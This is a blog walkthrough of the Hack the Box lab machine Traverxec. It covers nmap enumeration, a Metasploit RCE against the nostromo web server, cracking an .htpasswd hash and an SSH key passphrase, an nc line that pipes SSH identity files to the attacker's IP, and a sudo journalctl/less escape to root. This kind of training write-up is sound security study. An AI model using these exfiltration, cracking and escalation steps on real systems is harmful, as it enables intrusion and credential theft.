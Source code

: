 +++
author = "Nick"
categories = ["hack the box", "CVE", "ssh", "ssh2john", "metasploit", "reverse shell", "RCE", "GTFObins", "john", "cracking"]
date = 2020-04-11T10:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/11/trav.png"
slug = "hack-the-box-traverxec"
summary = "Here is my walk through of the machine Traverxec on Hack the Box. The box is listed as easy so let's jump in"
tags = ["hack the box", "CVE", "ssh", "ssh2john", "metasploit", "reverse shell", "RCE", "GTFObins", "john", "cracking"]
title = "Hack the Box - Traverxec"

+++


Here is my walk through of the machine Traverxec on Hack the Box. The box is listed as easy so let's jump in.

As we do with every box, we start with our initial ```nmap```: ```nmap -sC -sV -oA initial_scan 10.10.10.165```

Our results come back as pretty limited. We'll run the scan again with the ```-p-``` options to enumerate all ports. Turns out there was no new ports open. Here are the results:

```
Nmap scan report for 10.10.10.165
Host is up (0.061s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|_  256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 213.48 seconds
```
A quick ```searchsploit``` on ```nostromo``` shows that there is a RCE payload we might be able to use. We'll head over to see what is being hosted on port 80. We see a pretty standard website. We have a contact form that seemingly doesn't work. So our basic exploration hasn't found anything useful. We'll boot up ```gobuster``` and see what it can find.

While that runs we'll load up ```metasploit``` and see if the RCE payload can be of use. We will find the exploit and set it's requirements. We need to set ```RHOST``` and ```LHOST```.

![](/images/2019/11/trav-msfpl.gif" caption="Laggy shell :()

Once we run the exploit we gain a shell as ```www-data```. We quickly create a proper shell with python and start enumerating. We download a copy of ```linenum``` or ```linpeas``` from our ```SimpleHTTPServer``` and let it go. One of the first things that stands out is that we have a ```.htpassword```. We can take this hash and load it into ```hashcat``` and with some luck, crack it.

```hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt -o cracked_hash.txt```

This will attempt to crack the hash and give us an output. Once its done we see the cracked password of ```Nowonly4me```. Now given the type of access this is restricting, we'll need to apply this authentication type to an ```HTTP``` request. Time to look at the [```nhttpd``` documentation](http://www.nazgul.ch/dev/nostromo_man.html). We see that under the ```HOMDIRS``` section, places can essentially be aliased with this setting. Our configs tell us that we are mapping ```/home```. So given this example, we can go to ```http://10.10.10.165/~david/``` and should see some content.

![](/images/2019/11/image-60.png)

The above is what we are greeted with when we do. Awesome, so now we can hopfully append an authentication to the request and have some access. However even with appending authentication to the requests I wasn't able to gain the access in the way I thought. So when I went back to re-read the config and documentation, it seems like ```public_www``` might also be mapped to David's home directory. Now when we path in David's home directory we can't list any files, however, that doesn't mean they aren't there. So if we try to path to ```public_www``` we see it is indeed a valid path.

![](/images/2019/11/hidden-1.gif)

We see that there is a file called ```backup-ssh-identity-files.tar```. We want to download this file, so we'll transfer it back to our machine. We'll use a ```nc``` file transfer method:

On our attacking machine we'll setup a listener: ```nc -l -p 9999 > ssh_file.tgz < /dev/null```.

Then on our target machine we'll send the file over ```cat backup-ssh-identity-files.tar | nc 10.10.14.5 9999```

Once we get the file we can unzip it with ```gunzip```. We get a directory called ```home```. Which is a copy of the home directory. Inside we have our ```SSH``` keys. Now we need to convert the ```id_rsa``` to a crackable format. We'll use ```ssh2john```.

```ssh2john ./id_rsa > david.hash```

We'll then run it through ```John```:

```john --wordlist=/usr/share/wordlists/rockyou.txt david.hash```

Almost immediately we see a potential match, ```hunter```.

![](/images/2019/11/image-61.png)

So we try this password with our key and we get in!

![](/images/2019/11/image-62.png)

One we're in we see that there are some scripts in ```bin``` file in David's home directory. When we parse through the file we see that we are calling ```journalctl``` as sudo. We might be able to append to this call and break out of our shell to get root. Now this is a pretty CTF type thing and took me a while, even though I was staring at [```GTFObins```](https://gtfobins.github.io/gtfobins/less/) for quite some time. We issue the following:

```VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile``` 

We can append this to the last line being called in the script and gain our access as root.

![](/images/2019/11/trav-root.gif)

There we have it, our root flag! This last bit was CTF like but still fun none the less!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

